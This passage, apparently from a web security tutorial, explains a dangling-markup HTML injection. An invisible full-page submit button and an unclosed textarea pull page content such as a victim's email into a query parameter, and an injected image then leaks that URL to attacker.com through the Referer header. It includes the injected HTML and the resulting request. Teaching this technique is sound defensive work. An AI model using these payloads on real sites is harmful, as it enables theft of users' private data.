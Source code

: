 It will include all query parameters, and we can put sensitive dangled information in there by making a form with a GET method first:

<pre class="language-html" data-title="HTML Source"><code class="lang-html"><strong>&#x3C;form action="/referer-leak" method="GET">
</strong><strong>&#x3C;button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
</strong><strong>                             width: 100vw; height: 100vh; opacity: 0">&#x3C;/button>
</strong><strong>&#x3C;textarea name="leak">
</strong>&#x3C;p>Your email: victim@example.com&#x3C;/p>
&#x3C;div class="note">
  &#x3C;textarea>&#x3C;/textarea>
&#x3C;/div>
</code></pre>

This `action=` points to the location where the second referer-leaking HTML injection is stored. After clicking anywhere, the form submits and the value of the textarea is put into the `?leak=` query parameter. This allows it to be leaked by the referer payload:

<figure><img src="../../../.gitbook/assets/image (69).png" alt="" width="563"><figcaption><p>Step 1: Prepare form that puts sensitive data in query parameter + large submit button</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (70).png" alt="" width="563"><figcaption><p>Step 2: After submitting, leak is in URL and victim is brought to referer leak</p></figcaption></figure>

This will trigger the following request, that the attacker can decode to find the leaked information:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: attacker.com
Referer: https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E
```
{% endcode %}
